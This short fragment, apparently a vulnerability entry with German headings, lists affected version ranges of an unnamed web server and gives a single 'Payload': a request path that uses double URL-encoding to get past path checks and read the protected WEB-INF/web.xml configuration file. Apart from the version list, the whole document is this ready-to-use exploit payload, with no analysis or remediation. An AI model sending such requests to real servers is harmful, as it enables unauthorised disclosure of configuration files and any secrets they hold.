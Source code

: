 <languages />

Betroffene Version
------------------

    <= 9.4.40, <= 10.0.2, <= 11.0.2

Payload
-------

    /concat?/%2557EB-INF/web.xml